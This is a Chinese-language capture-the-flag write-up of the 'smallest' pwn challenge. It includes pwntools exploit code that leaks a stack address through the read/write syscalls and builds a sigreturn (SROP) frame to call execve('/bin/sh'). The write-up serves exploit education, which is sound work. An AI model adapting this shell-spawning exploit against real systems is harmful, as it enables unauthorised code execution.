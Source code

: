## 1. 题目：春秋杯smallest

1. 题目简短而精悍，只有6条汇编指令：

   ![image-20241009203034781](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092030838.png)

2. rax ==> 0 对应系统用调用read函数，输入的长度是0x400，地址直接在rsp上，即输入的位置就是返回地址：

   先泄漏栈地址，利用read返回值rax(1)来调用系统调用write：

   ```py
   # 先泄漏栈地址
   SYS_read_ret = 0x00000000004000B0
   syscall_ret = 0x0000000004000BE
   payload = p64(SYS_read_ret) + p64(syscall_ret) + p64(SYS_read_ret)	# 第一个SYS_read_ret用来控制rax的值 syscall_ret调用write 第二个SYS_read_ret 用来调用write后继续输入
   p.send(payload)
   
   payload = b"\xb3"
   p.send(payload)
   stack_addr = u64(p.recv()[0x00002d0:0x00002d0+8])
   success("stack_addr ==> " + hex(stack_addr))
   ```

   第一个SYS_read_ret，从新去执行read系统调用：

   ![image-20241009203559051](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092035195.png)

   输入的长度为1，rax返回值为1：

   ![image-20241009203705478](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092037685.png)

   从而执行write系统调用，来泄漏栈地址，ret衔接到SYS_read_ret再来输入：

   ![image-20241009203750189](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202410092037363.png)

   伪造sigal frame写入栈上，控制好到栈顶的距离：

   ```py
   # 构造frame,表示execv("/bin/sh",0,0)
   frame = SigreturnFrame()
   frame.rax = constants.SYS_execve    # execve函数的系统编号
   frame.rdi = stack_addr - 0x000229   # /bin/sh地址
   frame.rsi = 0x0
   frame.rdx = 0x0
   frame.rsp = stack_addr
   frame.rip = syscall_ret             # 调用execve函数
   
   frame_payload = p64(SYS_read_ret) + p64(0) +bytes(frame)    # SYS_read_ret用来作为返回值 后续输入控制rax的值来执行SYS_rt_sigreturn
   payload = frame_payload + b"/bin/sh\x00"
   p.send(payload)
   pause()
   payload = p64(syscall_ret) + b"\x00"*(15-8) # 通过read的返回值 来控制rax寄存器的值 执行rt_sigreturn
   p.send(payload)
   ```
